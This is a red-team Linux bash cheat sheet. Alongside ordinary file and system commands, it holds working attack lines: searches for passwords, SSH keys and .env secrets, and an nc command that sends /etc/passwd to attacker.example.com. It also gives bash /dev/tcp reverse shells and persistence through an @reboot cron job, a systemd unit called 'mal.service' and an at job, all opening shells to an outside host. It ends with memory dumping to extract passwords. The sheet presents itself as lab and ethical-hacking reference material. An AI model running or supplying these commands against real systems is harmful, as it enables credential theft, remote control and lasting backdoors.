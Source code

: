 ```yaml
---
title: Linux Bash Reference
tags: [linux, bash, enumeration, persistence, red-team]
tools: [bash, grep, find, locate, ss, netstat, curl, wget, nc, ssh, scp, rsync, sudo, systemctl, crontab]
---
```


# Linux Bash Reference

## Quick file commands

```bash
# List (human readable), show hidden
ls -lah

# View file contents (pager)
less file.txt
cat file.txt

# Copy / Move / Delete
cp -av source dest
mv -v file dest/
rm -rf ./build/

# Create files/dirs
touch filename.txt
mkdir -p /tmp/mydir
truncate -s 1M placeholder.bin   # create file of size 1MB

# Permissions
chmod 700 script.sh
chown user:group file
getfacl file  # check ACLs

# Archive / compress
tar -cvzf archive.tgz somedir/
unzip package.zip
```

## System & user enumeration

```bash
# Basic system info
uname -a
lsb_release -a  # on many distros
cat /etc/os-release
hostnamectl

# User / groups
id
whoami
getent passwd | grep -E ":/home/"    # list human users
cut -d: -f1,3,6 /etc/passwd
lastlog | head

# Processes / services
ps aux --sort=-%cpu | head -n 20
ss -tunap        # active sockets (recommended)
netstat -tulpn   # if available
systemctl list-units --type=service --state=running
service --status-all

# Network config
ip addr show
ip route show
ip neigh show
route -n

# Mounted filesystems
mount | column -t
lsblk -f
```

## Finding files & secrets

```bash
# Find files by name (recursive)
find / -type f -iname "*password*" 2>/dev/null
find /home -maxdepth 3 -type f -name "*.env" 2>/dev/null

# Search file contents (grep)
grep -RIn --exclude-dir={.git,node_modules} -e "password" -e "secret" /home 2>/dev/null

# Locate database (needs updatedb)
locate .env | head

# Look for common secret locations
ls -lah ~/.ssh
cat ~/.ssh/authorized_keys
cat ~/.bash_history
cat /var/www/html/.env

# Find suid binaries (privilege escalation hunting)
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null

# Find writable files and directories as any user
find / -writable -type d 2>/dev/null | head

# Check sudo rights
sudo -l 2>/dev/null

# Check for credentials in configs
grep -RIn "password\|passwd\|token\|key\|secret" /etc /home 2>/dev/null | head
```

## Networking & transfer

```bash
# Test connectivity
ping -c 4 8.8.8.8
traceroute -n 10.0.0.1

# Download a file
curl -sSL -o /tmp/tool https://example.com/tool && chmod +x /tmp/tool
wget -q -O /tmp/tool https://example.com/tool

# Upload / copy between hosts
scp user@host:/path/to/file ./
rsync -avz user@host:/var/www/ ./www/

# Simple TCP listener (netcat)
# Listener (attacker)
nc -lvnp 9001
# Connect (target)
nc attacker.example.com 9001 < /etc/passwd

# Reverse shell examples (for labs)
# Bash reverse shell (target)
bash -i >& /dev/tcp/10.0.0.5/4444 0>&1

# Check open ports and services
ss -tunlp
nmap -sC -sV -p- 10.0.0.0/24
```

## Scheduled jobs & persistence

```bash
# List crontab for current user
crontab -l
# System cron jobs
ls -lah /etc/cron.* /etc/crontab

# Create a @reboot cronjob (persistence)
(crontab -l 2>/dev/null; echo "@reboot /usr/bin/nc -e /bin/bash attacker 4444") | crontab -

# Systemd service persistence example (create minimal service)
# /etc/systemd/system/mal.service
# [Unit]
# Description=malicious service
# [Service]
# ExecStart=/usr/bin/bash -lc 'bash -i >/dev/tcp/10.0.0.5/4444 0>&1'
# [Install]
# WantedBy=multi-user.target
sudo systemctl daemon-reload
sudo systemctl enable --now mal.service

# At jobs
echo "/usr/bin/bash -i >/dev/tcp/10.0.0.5/4444 0>&1" | at now + 1 minute
```

## Process & memory inspection

```bash
# View environment of process (requires privileges)
tr ' ' '
' < /proc/<pid>/environ

# Check listening processes and owners
ss -tunlp | grep LISTEN
lsof -i -P -n | grep LISTEN

# Dump process memory (requires privileges)
gcore <pid>    # creates core.<pid>
strings core.<pid> | grep -i password

# Check loaded kernel modules
lsmod
modinfo <module>
```

## Common enumeration utilities (one-liners)

```bash
# Quick list of interesting files, writable locations and cronjobs
(echo "-- Writable dirs --"; find / -type d -writable -print 2>/dev/null | head -n 50; echo "\n-- SUID bins --"; find / -perm -4000 -type f -print 2>/dev/null; echo "\n-- Cronjobs --"; ls -la /etc/cron* /var/spool/cron/crontabs 2>/dev/null) > /tmp/enum_summary.txt

# Check sudo misconfigurations and privileged binaries
sudo -l 2>/dev/null || true
find / -perm -4000 -user root -type f -exec ls -ld {} \; 2>/dev/null | head
```

## Notes

- Redirect errors to /dev/null when you want cleaner output (e.g., permission denied noise).
- Use `ss` instead of `netstat` on modern systems for more accurate socket info.
- Be cautious when fetching and executing remote binaries — only do this in lab environments you control.
- This sheet is a reference for ethical hacking practice and red-team exercises. Keep usage legal and within scope.

